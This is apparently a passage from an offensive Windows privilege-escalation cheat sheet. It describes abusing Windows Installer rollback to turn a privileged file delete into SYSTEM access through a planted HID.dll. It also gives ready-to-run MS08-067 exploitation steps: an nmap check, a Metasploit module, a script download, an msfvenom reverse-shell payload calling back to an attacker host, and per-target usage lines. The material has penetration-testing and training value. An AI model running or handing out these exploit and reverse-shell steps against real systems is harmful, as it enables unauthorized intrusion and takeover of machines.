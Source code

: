 ## EoP - Privileged File Delete

During an MSI installation, the Windows Installer service maintains a record of every changes in case it needs to be rolled back, to do that it will create:

* a folder at `C:\Config.Msi` containing
    * a rollback script (`.rbs`)
    * a rollback file (`.rbf`)

To convert a privileged file delete to a local privilege escalation, you need to abuse the Windows Installer service.

* delete the protected `C:\Config.Msi` folder immediately after it's created by the Windows Installer
* recreate the `C:\Config.Msi` folder with weak DACL permissions since ordinary users are allowed to create folders at the root of `C:\`.
* drop malicious `.rbs` and `.rbf` files into it to be executed by the MSI rollback
* then upon rollback, Windows Installer will make arbitrary changes to the system

The easiest way to trigger this chain is using [thezdi/FilesystemEoPs/FolderOrFileDeleteToSystem](https://github.com/thezdi/PoC/tree/master/FilesystemEoPs/FolderOrFileDeleteToSystem).
The exploit contains a .msi file with 2 actions, the first one produces a delay and the second throws an error to make it rollback. This rollback will "restore" a malicious HID.dll in `C:\Program Files\Common Files\microsoft shared\ink\HID.dll`.

Then switch to the secure desktop using `[CTRL]+[ALT]+[DELETE]` and open the On-Screen Keyboard (`osk.exe`).
The `osk.exe` process first looks for the `C:\Program Files\Common Files\microsoft shared\ink\HID.dll` library instead of `C:\Windows\System32\HID.dll`

## EoP - Common Vulnerabilities and Exposure

### MS08-067 (NetAPI)

Check the vulnerability with the following nmap script.

```c
nmap -Pn -p445 --open --max-hostgroup 3 --script smb-vuln-ms08-067 <ip_netblock>
```

Metasploit modules to exploit `MS08-067 NetAPI`.

```powershell
exploit/windows/smb/ms08_067_netapi
```

If you can't use Metasploit and only want a reverse shell.

```powershell
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 --platform windows

Example: MS08_067_2018.py 192.168.1.1 1 445 -- for Windows XP SP0/SP1 Universal, port 445
Example: MS08_067_2018.py 192.168.1.1 2 139 -- for Windows 2000 Universal, port 139 (445 could also be used)
Example: MS08_067_2018.py 192.168.1.1 3 445 -- for Windows 2003 SP0 Universal
Example: MS08_067_2018.py 192.168.1.1 4 445 -- for Windows 2003 SP1 English
Example: MS08_067_2018.py 192.168.1.1 5 445 -- for Windows XP SP3 French (NX)
Example: MS08_067_2018.py 192.168.1.1 6 445 -- for Windows XP SP3 English (NX)
Example: MS08_067_2018.py 192.168.1.1 7 445 -- for Windows XP SP3 English (AlwaysOn NX)
python ms08-067.py 10.0.0.1 6 445
```
